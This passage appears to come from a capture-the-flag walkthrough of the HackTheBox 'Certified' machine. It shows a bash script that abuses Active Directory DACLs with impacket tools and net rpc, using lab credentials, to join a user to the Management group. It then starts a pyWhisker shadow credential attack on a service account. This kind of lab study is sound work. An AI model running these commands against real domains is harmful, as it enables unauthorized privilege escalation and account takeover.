 ![Successful Management Group User Addition](Pasted image 20250314141216.png)
_Successful Management Group User Addition_

### 1d. Adding Steps 1a-c Into Bash Script
There is some type of scheduled task on the server that is resetting the changes made. Therefore, its best to place all of the execution steps into a single bash script that can be ran in order to get back to the same level of permission after running step 1c. 

![Machine Resetting DACL Changes](Pasted image 20250314143202.png)
_Scheduled Task Resetting Changes Periodically_

Execute the following bash script to perform all of the above DACL abuse vectors at once. 
```bash
#!/usr/bin/sh

# STEP 1a
echo "\n[+] Changing Management Object Owernship"
impacket-owneredit -action write -new-owner 'judith.mader' -target 'Management' 'CERTIFIED.HTB'/'judith.mader':'judith09'

# STEP 1b
echo "\n[+] Adding Management Object WriteMember DACL Permission"
impacket-dacledit -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'CERTIFIED.HTB'/'judith.mader':'judith09'

# STEP 1c
echo "\n[+] Adding judith.mader to Group"
net rpc group addmem "MANAGEMENT" "judith.mader" -U "certified.htb"/"judith.mader"%"judith09" -S "10.129.231.186"

echo "\n[+] Verify Group Membership"
net rpc group members "MANAGEMENT" -U "certified.htb"/"judith.mader"%"judith09" -S "10.129.231.186"
```

## 2. Management Group -> management_svc Service Account
The judith.mader domain user is a member of the Management group. Therefore, we can leverage the `GenericWrite` permissions the group has over the management_svc service account in order to perform a shadow credential attack. This attack is explained quite thoroughly in Elad Shamir's [Shadow Credential Attack]](https://eladshamir.com/2021/06/21/Shadow-Credentials.html) blog post. In essence we are going to be modifying management_svc's `msDS-KeyCredentialLink` to add a key credential. This will allow us to "*perform Kerberos authentication as that account using PKINIT*". 

### 2a. Shadow Credential Attack Against management_svc
First step is to perform the Shadow Credential attack, adding key credentials to management_svc's `msDS-KeyCredentialLink` user attribute. To accomplish the [pyWhisker](https://github.com/ShutdownRepo/pywhisker) script is utilized. 
```bash
python3 pywhisker/pywhisker.py -d 'certified.htb' -u 'judith.mader' -p 'judith09' --target 'management_svc' --action 'add'
```
- `-d 'certified.htb'` : Target domain. 
- `--target 'management_svc'` : The target of the shadow credential attack. 
- `--action 'add'` : Add the key credentials to the target account's msDS-KeyCredentialLink attribute
